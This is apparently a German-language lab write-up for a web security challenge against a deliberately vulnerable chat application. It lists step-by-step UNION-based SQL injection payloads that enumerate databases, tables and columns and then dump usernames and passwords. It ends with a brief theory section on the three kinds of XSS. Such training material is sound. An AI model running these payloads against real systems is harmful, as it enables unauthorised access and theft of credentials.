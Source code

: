    # WAST Challenge

## SQL Injection (Advanced)

### Angriff - Step 3

* Als erstes alle Datenbanken auslesen:

  ```sql
  a' and 1=2 UNION SELECT TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES  -- 
  ```

  

* Dann alle Tabellen von der SQL Datenbank ausgeben:

  ```sql
  a' and 1=2 UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES  as t WHERE t.TABLE_SCHEMA = 'dvwc' -- 
  ```

  * Interessante Tabellen:
    * Users
    * PoMessages
    * Chatrooms

* Als nächstes alle Spalten der Tabelle Users holen

  ```sql
  a' and 1=2 UNION SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS  as t WHERE t.TABLE_NAME = 'Users' -- 
  ```

   - Interessante Spalten:
      - id
      - surname
      - prename
      - birthday
      - username
      - pwd
      - admin
      - createdAt
      - updatedAt

 * Passwörter auslesen

   ```sql
   a' and 1=2 UNION SELECT concat(username, " " , pwd) FROM Users -- 
   ```

# XSS Session Hijacking

## Theorie XSS

Man unterscheidet drei Arten von XSS:

* **Reflektiertes XSS**

  * Hierbei wird das schädliche Skript zum Webserver gesendet, dort nicht gespeichert und ungeprüft an den Client zurückgesendet.

* **Persistentes XSS**

  * Beim persistenten (beständigen) XSS erfolgt die Speicherung der schädliche Skripte auf dem Webserver bzw. in der Datenbank. Sie werden bei jedem Aufruf an den jeweiligen Client gesandt. Für diese Art von XSS eignen sich vor allem Webanwendungen wie Foren und Blogs, welche Benutzereingaben auf dem Server speichern und ungeprüft ausgeben.

* **DOM-basiertes XSS**

  * Wird auch als lokales XSS bezeichnet. Hierbei erfolgt der Angriff über eine manipulierte URL. Der Schadcode wird clientseitig ungeprüft ausgeführt und der Webserver ist gar nicht involviert. Hierdurch sind vor allem auch statische Webseiten gefährdet und können attackiert werden.

  

